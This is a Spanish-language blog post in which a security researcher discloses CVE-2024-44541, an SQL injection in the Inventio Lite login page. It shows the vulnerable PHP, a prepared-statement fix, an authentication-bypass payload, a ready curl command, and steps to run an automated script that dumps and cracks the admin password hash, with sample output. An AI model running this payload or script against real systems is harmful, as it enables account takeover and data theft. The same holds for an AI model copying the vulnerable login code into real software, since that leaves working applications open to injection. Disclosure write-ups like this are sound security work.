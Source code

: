 +++
author = "Andrés Del Cerro"
title = "Mi primer CVE - CVE-2024-44541"
date = "2024-09-12"
description = ""
tags = [
    "Cybersecurity",
    "Penetration Testing",
    "Web Hacking",
    "CVE",
    "Informative",
    "CVE-2024-44541"
]

+++

# Introducción:

Recientemente, descubrí mi primer CVE, un hito importante en mi trayectoria en ciberseguridad. Aquí comparto brevemente el proceso.
¿Qué es un CVE?

CVE (Common Vulnerabilities and Exposures) es un sistema que identifica y categoriza vulnerabilidades de seguridad en software, permitiendo que se reporte y solucione de manera coordinada.
El Descubrimiento

---

# Código Vulnerable

El código vulnerable se encuentra en el archivo de login, donde la entrada del usuario no se escapa adecuadamente antes de ser incluida en la consulta SQL:
```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();
    $sql = "select * from user where (email= \"".$user."\" or username= \"".$user."\") and password= \"".$pass."\" and is_active=1";
    $query = $con->query($sql);
    $found = false;
    $userid = null;
    while($r = $query->fetch_array()){
        $found = true;
        $userid = $r['id'];
    }
}
```
En esta implementación, el parámetro `username` se concatena directamente en la consulta SQL, permitiendo la inyección de código malicioso.

---

# Código Corregido
La vulnerabilidad se solucionó utilizando consultas **preparadas**, que permiten escapar adecuadamente las entradas del usuario y evitar la inyección SQL:
```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();

    // Preparar la consulta
    $stmt = $con->prepare("
        SELECT * FROM user 
        WHERE (email = ? OR username = ?) 
        AND password = ? 
        AND is_active = 1
    ");

    // Vincular los parámetros
    $stmt->bind_param("sss", $user, $user, $pass);

    // Ejecutar la consulta
    $stmt->execute();

    // Obtener los resultados
    $result = $stmt->get_result();
    $found = false;
    $userid = null;

    while($r = $result->fetch_assoc()){
        $found = true;
        $userid = $r['id'];
    }

    // Cerrar la declaración
    $stmt->close();
}
```

---

# Explotación
## Payload de Bypass de Autenticación
Un atacante puede explotar esta vulnerabilidad utilizando un payload como el siguiente para eludir la autenticación:
```text
username -> ") or 1=1-- -
password -> cualquier_valor
```

**Ejemplo de explotación con** `curl`:
```console
$ curl -X POST http://URL_INVENTIO_LITE/inventio-lite/?action=processlogin -d 'username=%22%29%20or%201%3D1--%20-&password=blablabla' -v && echo ""
```

# Script de Explotación Automática
He desarrollado un script en Python que automatiza la extracción del nombre de usuario y hash de la contraseña del administrador, y luego intenta descifrar la contraseña.

Para usar el script, clona el repositorio y ejecuta el script:

```console
$ git clone https://github.com/pointedsec/CVE-2024-44541
$ pip install -r requirements.txt
$ python3 sqli.py
```
**Ejemplo de salida del script**
```console
[*] Checking if target is vulnerable
[+] Target Vulnerable!
[*] Dumping Administrator username...
[◤] Extracting Username: -> POINTEDSEC@GMAIL.COM
[/] Extracting Admin Password Hash: Final Admin Hash: 90b9aa7e25f80cf4f64e990b78a9fc5ebd6cecad
[+] Password Decrypted! -> POINTEDSEC@GMAIL.COM:admin
```

---

# Impacto
La explotación de esta vulnerabilidad puede tener las siguientes consecuencias:
- **Confidencialidad**: Los atacantes pueden extraer toda la base de datos, accediendo a información sensible como credenciales de usuarios, correos electrónicos y otros datos personales.
- **Integridad**: Un atacante podría obtener acceso administrativo, permitiendo modificar, agregar o eliminar datos en la aplicación.

---
# Referencias

- [Inventio Lite GitHub Repository](https://github.com/evilnapsis/inventio-lite)
- [CVE-2024-44541 en MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-44541)
- [Alerta en INCIBE](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-44541)
- [Detalle en NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-44541)

---

# Créditos
Este CVE fue descubierto y reportado por Andrés Del Cerro (alias: pointedsec, yo jejeje). Si necesitas más información, no dudes en contactarme a través de pointedpentesting@gmail.com.

---

# Conclusión
Después de validar la vulnerabilidad, procedí con su divulgación responsable, colaborando con el equipo de seguridad afectado para resolverla.

Descubrir y reportar un CVE ha sido una experiencia educativa, reforzando mi enfoque en la seguridad informática y motivándome a seguir contribuyendo a este campo.

Happy Hacking! 🚀
